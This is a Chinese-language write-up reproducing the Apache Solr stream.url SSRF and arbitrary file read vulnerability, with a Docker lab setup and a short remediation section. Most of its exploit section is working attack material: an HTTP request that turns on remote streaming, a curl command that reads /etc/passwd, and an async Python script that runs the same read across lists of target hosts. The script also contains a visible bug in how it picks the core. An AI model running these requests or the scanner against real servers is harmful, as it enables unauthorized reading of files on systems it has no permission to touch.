


# Apache-Solr 任意文件读取漏洞复现
===========================

## 漏洞描述

Apache Solr是一个开源的搜索服务，使用Java语言开发。Apache Solr的某些功能存在过滤不严格，在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或文件读取漏洞。

## 漏洞评级

Apache Solr stream.url SSRF与任意文件读取漏洞 中危

## 影响版本

Apache Solr 所有版本

## 安全版本

官方不予修复，暂无安全版本。

## 复现过程

### 环境搭建

```bash
docker search solr
docker pull solr
docker run -d -p 8983:8983 solr
docker  exec  -it  实例id  /bin/bash
cp -r server/solr/configsets/_default/conf /var/solr/data/test1
```

参考：http://www.bubuko.com/infodetail-3118740.html

### 漏洞复现

首先获取core


core
以my_core测试为例，

```bash
POST /solr/my_core/config HTTP/1.1
Host: x.x.x.x:8983
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 84
{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```

读取文件

```bash
 curl "http://ip:8983/solr/my_core/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"
```


读取结果
### EXP

环境要求：python3.8+

使用方法：python3 solr.py --help

```python
#!/usr/bin/python
# coding: UTF-8
import argparse
import asyncio
import json
import pathlib
from typing import Tuple
from urllib.parse import urlparse

import httpx


class URLAction(argparse.Action):
    def __call__(self, parser, namespace, values, option_string=None):
        if not urlparse(values):
            raise ValueError("Not a valid url!")
        setattr(namespace, self.dest, values)


class FILEAction(argparse.Action):
    def __call__(self, parser, namespace, values, option_string=None):
        if not pathlib.Path(values).exists():
            raise ValueError("File not exists!")
        setattr(namespace, self.dest, values)


parser = argparse.ArgumentParser(description="Solr Poc")
parser.add_argument("--host", type=str, action=URLAction, help="target host uri")
parser.add_argument("--file", type=str, action=FILEAction, help="target host file")
parser.add_argument("--conn", type=int, default=10, help="asyncio max connetions")
args = parser.parse_args()


SEM = asyncio.Semaphore(args.conn)
RESULT = {}


async def check(host: str) -> Tuple[str, bool]:
    status = False
    async with SEM:
        async with httpx.AsyncClient(base_url=host) as client:
            try:
                core_data = (
                    await client.get(
                        "/solr/admin/cores?indexInfo=false&wt=json", timeout=3
                    )
                ).json()
            except httpx.ReadTimeout:
                print(f"{host} TimeOut!")
                status = "TimeOut"
            else:
                if (status := core_data["status"]) :
                    core = status.keys()[0]
                    await client.post(
                        f"/solr/{core}/config",
                        json={
                            "set-property": {
                                "requestDispatcher.requestParsers.enableRemoteStreaming": "true"
                            }
                        },
                    )
                    result_data = (
                        await client.post(
                            url=f"/solr/{core}/debug/dump?param=ContentStreams",
                            data={"stream.url": "file:///etc/passwd"},
                        )
                    ).json()
                    if (streams := result_data["streams"]) :
                        print(streams[0]["stream"])
                        status = True
            finally:
                RESULT[host] = status
                return host, status


async def loop(urls):
    await asyncio.gather(*list(map(check, urls)))


def main():
    result_file = pathlib.Path("solr_main.json")
    try:
        urls = set()
        if args.host:
            urls.add(args.host)
        if args.file:
            with pathlib.Path(args.file).open("r") as file:
                urls = urls.union(
                    {url for line in file if urlparse((url := line.strip()))}
                )
        print(f"tasks: {len(urls)}")
        asyncio.run(loop(urls))
    except KeyboardInterrupt:
        pass
    finally:
        with result_file.open("w") as file:
            file.write(json.dumps(RESULT, indent=4, ensure_ascii=True))
```

### 修复建议

* 增加身份验证/授权，可参考官方文档：https://lucene.apache.org/solr/guide/8_6/authentication-and-authorization-plugins.html

* 禁止Solr API 以及管理 UI 直接对公网开放。设置防火墙，以便只允许受信任的计算机和人员访问。

### Reference

https://m.aliyun.com/doc/notice_list/9213612.html
https://www.o2oxy.cn/3227.html
